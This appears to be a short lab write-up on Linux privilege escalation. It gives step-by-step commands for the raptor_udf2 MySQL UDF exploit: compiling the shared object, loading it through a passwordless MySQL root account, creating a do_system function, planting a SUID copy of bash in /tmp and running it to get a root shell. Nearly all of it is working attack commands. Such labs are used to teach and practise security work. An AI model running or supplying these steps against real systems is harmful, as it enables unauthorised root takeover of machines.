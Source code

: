 # Privilege Escalation

#### Step 1 is to secure a shell

## Service Exploits
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of <b>User Defined Functions (UDFs) </b>to run system commands as root via the MySQL service.<br>

- Change into the /home/user/tools/mysql-udf directory:<br>
<b>cd /home/user/tools/mysql-udf</b>

- Compile the raptor_udf2.c exploit code using the following commands:
<br>
<b>gcc -g -c raptor_udf2.c -fPIC<br>
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc</b><br>

- Connect to the MySQL service as the root user with a blank password:
<br><b>mysql -u root</b><br>

- Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:
<br><b>
use mysql;<br>
create table foo(line blob);<br>
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));<br>
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';<br>
create function do_system returns integer soname 'raptor_udf2.so';
</b><br>

- Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
<br><b>
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');</b><br>

- Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
<br><b>
/tmp/rootbash -p</b><br>

#### and we got a root

